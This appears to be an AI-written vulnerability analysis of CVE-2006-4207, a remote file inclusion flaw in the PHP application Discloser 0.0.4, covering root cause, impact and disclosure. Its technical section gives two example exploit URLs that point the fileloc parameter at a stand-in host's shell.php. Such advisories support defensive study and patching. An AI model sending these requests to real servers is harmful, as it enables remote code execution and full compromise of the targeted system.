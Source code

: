 Based on the provided information, here's an analysis of CVE-2006-4207:

**Vulnerability Details:**

*   **Root Cause:** The vulnerability is a Remote File Inclusion (RFI) flaw in the Discloser 0.0.4 application.
*   **Weakness:** The application improperly handles the `fileloc` parameter in `content/content.php` and `inc/indexhead.php` files. This allows an attacker to include a remote file containing malicious code.
*   **Impact of Exploitation:** Successful exploitation allows an attacker to execute arbitrary code on the server by including and running a malicious PHP script from a remote server. This can lead to complete compromise of the affected system.
*   **Attack Vectors:** The vulnerability can be exploited by sending a crafted HTTP request to the vulnerable scripts (`content/content.php` and `inc/indexhead.php`), modifying the `fileloc` parameter to point to a malicious remote PHP script.
*   **Required Attacker Capabilities/Position:** The attacker needs to be able to send HTTP requests to the vulnerable application. There are no specific required attacker capabilities beyond that.

**Technical Details:**

*   The exploit is triggered by manipulating the `fileloc` parameter in the following URLs:
    *   `http://[Target]/[Path]/content/content.php?fileloc=http://www.evalsite.com/shell.php?`
    *   `http://[Target]/[Path]/inc/indexhead.php?fileloc= http://www.evalsite.com/shell.php?`
*   The attacker-controlled `fileloc` parameter specifies the URL of the malicious script. The application then includes and executes this script, resulting in remote code execution.
*   The exploit was publicly disclosed on August 15, 2006, by Arash RJ of the PersianFox Digital Security Team.

**Additional Details:**

*   The vulnerable application is Discloser version 0.0.4.
*   The application is written in PHP.

This information is more detailed than the typical CVE description which often provides just a high level overview.